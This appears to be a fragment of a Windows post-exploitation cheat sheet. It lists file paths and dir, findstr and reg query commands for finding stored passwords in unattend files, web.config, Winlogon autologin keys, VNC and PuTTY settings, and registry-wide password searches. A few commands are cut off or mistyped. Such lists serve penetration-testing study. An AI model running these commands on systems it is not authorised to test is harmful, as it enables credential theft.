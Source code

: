c:\\sysprep.inf

c:\\sysprep\\sysprep.xml

c:\\unattend.xml

%WINDIR%\\Panther\\Unattend\\Unattended.xml

%WINDIR%\\Panther\\Unattended.xml

dir /b /s unattend.xml

dir /b /s web.config

dir /b /s sysprep.inf

dir /b /s sysprep.xml

dir /b /s \*pass\*

dir c:\\\*vnc.ini /s /b

dir c:\\\*ultravnc.ini /s /b

dir c:\\ /s /b \| findstr /si \*vnc.ini

### Registry

reg query HKLM /f password /t REG_SZ /s

reg query \"HKLM\\Software\\Microsoft\\Windows
NT\\CurrentVersion\\winlogon\"

##VNC

reg query \"HKCU\\Software\\ORL\\WinVNC3\\Password\"

reg query \"HKCU\\Software\\TightVNC\\Server\"

\### Windows autologin

reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows
NT\\Currentversion\\Winlogon\"

reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows
NT\\Currentversion\\Winlogon\" 2\>nul \| findstr \"D

\### SNMP Paramters

reg query \"HKLM\\SYSTEM\\Current\\ControlSet\\Services\\SNMP\"

\### Putty

reg query \"HKCU\\Software\\SimonTatham\\PuTTY\\Sessions\"

\### Search for password in registry

reg query HKLM /f password /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s

### RunAs - Savedcreds

